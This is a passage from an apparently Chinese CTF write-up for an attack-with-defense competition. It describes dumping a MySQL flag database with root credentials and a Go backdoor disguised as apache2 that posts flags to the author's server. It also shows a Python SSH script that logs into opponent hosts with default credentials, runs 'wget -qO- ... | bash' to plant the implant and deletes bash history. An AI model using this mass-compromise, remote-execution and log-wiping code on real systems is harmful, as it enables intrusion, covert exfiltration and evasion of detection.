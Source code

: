 ### 数据库 flag

我翻了翻进程发现还有个 mysql，而且数据库里面的 flag 和 /flag 里面的不一样，还是单独算分，难崩。直接用 shell dump 出来。

```bash
mysqldump -h127.0.0.1 -uroot -proot-toor --databases ctf
```

感觉是有个 sql 注入的点的，不过后来我们也学别人上了个`watchbird`通防（规则允许），就懒得找了，反正都能 dump 出来。

### 加强后门

每一轮跑脚本太累了，而且别人还可能修，很烦。我每次打 awd 都在想直接放个木马上去多好。但是不能是 `.php` 那种 webshell，别人一下就发现了。看了下进程列表好多`apache2`，写个木马伪装成`apache2`多是件美事啊。于是拿 go 写了一个每分钟读取 /flag 和数据库里面的 flag，然后 POST 到我的服务器。这一套很爽，直接从服务器拿 flag 交完事儿。

## 关卡二

说实话我一开始是不知道还有关卡二的存在，所以关卡一把各种骚操作玩了一轮。

听说还有关卡二，我想试试另一个更逆天的。

### 批量 ssh 种马

考虑到每个人的初始账号密码一样（ctf, hust-ctf）。虽然提示了每个人改密码，不过他再快能比我脚本快？遂写了个批量脚本把上面说的木马种上。

```python
import paramiko
import concurrent
from concurrent.futures import ThreadPoolExecutor
import time
from awd_platform.get_host import get_all_hosts_filter_port

timeout = 5
MAX_WORKERS = 50

USERNAME = "ctf"
PASSWORD = "hust-ctf"
NEW_PASSWORD = "PASSWORD"
TRY_CHANGE_PASSWORD = False

RUNNING_COMMANDS = [
    # 小马
    "wget -qO- {小马域名} | bash",
    # 清空日志
    "rm -f ~/.bash_history",
]


class SSH_Client():
    def __init__(self, host, port, username, password):
        self.is_root = False
        self.host = host
        self.port = port
        self.username = username
        self.password = password
        self.ssh = paramiko.SSHClient()
        self.ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        self.ssh.connect(self.host, self.port, self.username,
                         self.password, timeout=timeout)

    def exec_command(self, command):
        stdin, stdout, stderr = self.ssh.exec_command(command)
        return stdin, stdout, stderr

    def change_password(self):
        stdin, stdout, stderr = self.exec_command("passwd")
```